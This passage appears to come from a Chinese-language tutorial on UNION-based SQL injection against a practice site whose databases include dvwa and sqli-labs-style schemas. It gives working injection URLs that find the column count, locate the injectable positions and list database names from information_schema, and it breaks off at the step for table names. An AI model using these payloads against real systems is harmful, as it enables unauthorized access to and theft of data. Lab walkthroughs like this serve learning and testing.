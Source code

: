 ```bash
URL:http://www.tianchi.com/web/union.php?id=1 order by 3
```

当id=1 order by 3时，页面返回与id=1相同的结果；而id=1 order by 4时不一样，故字段数量是3。
![20200918002743](https://cdn.staticaly.com/gh/Abyssun/picx-images-hosting@master/20200918002743.epuncqq6eag.png)

3）查询SQL语句插入位置

```bash
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,2,3
```

![20200918002819](https://cdn.staticaly.com/gh/Abyssun/picx-images-hosting@master/20200918002819.5f7vuregbdc0.png)
可以看到2,3位置可以插入SQL语句。

4）获取数据库库名

（1）获取当前数据库库名

2位置修改为：database()

```bash
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,database(),3
```

![](https://cdn.staticaly.com/gh/Abyssun/picx-images-hosting@master/20200918002838.62osyl6zrro0.png)

（2）获取所有数据库库名

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,group_concat(char(32,58,32),schema_name),3 from information_schema.schemata
```

![20200918002857](https://cdn.staticaly.com/gh/Abyssun/picx-images-hosting@master/20200918002857.3zutusd6fkm0.png)

（3）逐条获取数据库库名

```csharp
语句：select schema_name from information_schema.schemata limit 0,1;
```

```sql
URL:http://www.tianchi.com/web/union.php?id=-1 union select 1,(select schema_name from information_schema.schemata limit 0,1),3
```

![20200918002912](https://cdn.staticaly.com/gh/Abyssun/picx-images-hosting@master/20200918002912.4kbfsbx5gzc0.png)

修改limit中第一个数字，如获取第二个库名：limit 1,1。

```bash
数据库库名：information_schema,challenges,dedecmsv57utf8sp2,dvwa,mysql,performance_schema,security,test,xssplatform
```

5）获取数据库表名

（1）方法一：
